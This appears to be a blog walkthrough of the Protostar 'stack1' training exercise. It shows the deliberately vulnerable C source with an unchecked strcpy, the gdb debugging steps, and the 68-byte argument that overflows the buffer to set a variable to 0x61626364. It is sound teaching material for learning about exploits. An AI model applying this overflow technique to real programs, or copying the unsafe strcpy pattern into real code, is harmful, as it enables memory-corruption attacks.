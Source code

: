 ```yaml
---
title: "Protostar stack1 walkthrough"
date: 2020-05-21
tags: [buffer overflow, protostar, stack1, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```



## Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack1/)


#### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is little endian

#### Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed. But here, it need to be changed to a specific value.

There is no `gets()` call in this program. Instead, `strcpy()` is used to copy the argument into buffer. 

##### Vulnerability:

`strcpy()` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

##### Disassembly:

Lets start by disassembling the binary

```
gdb ./stack1
(gdb) set disassembly-flavor intel
(gdb) disassemble main
```


![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack1/disassembly.png)

We can see that 'modified' variable is at $esp+0x5c. Lets put breakpoints before and after `strcpy()` and create hooks

```
break *0x080484a2
break *0x080484a7
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```

Lets run with argument AAAAAAAA
```
r AAAAAAAA
```

We can see that addresses 0xbffff75c and 0xbffff760 are overwritten with A's. Also, 'modified' is stored at 0xbffff79c and has value of 0x00000000

![registers]({{site.url}}{{site.baseurl}}/images/protostar/stack1/registers.png)

We need to overwrite from 0xbffff75c to 0xbffff79c. That is 40 + 4 words (68 bytes)
Lets create a string of 68 bytes and make sure variable is overwritten
` r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

![overwrite]({{site.url}}{{site.baseurl}}/images/protostar/stack1/overwrite.png)

We can see that 0xbffff79c now has a value of 0x49494949 or IIII

Now we need to change I's in string to 0x61626364 (abcd)
Lets run with this argument 
`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHabcd`

![try]({{site.url}}{{site.baseurl}}/images/protostar/stack1/try.png)

Now we can see that 'modified' is changed to 0x64636261. This is because prostar is little endian (as mentioned in hints). Lets try with dcba instead

`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHdcba`

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack1/done.png)

Now, the variable has 0x61626364 and the program has passed
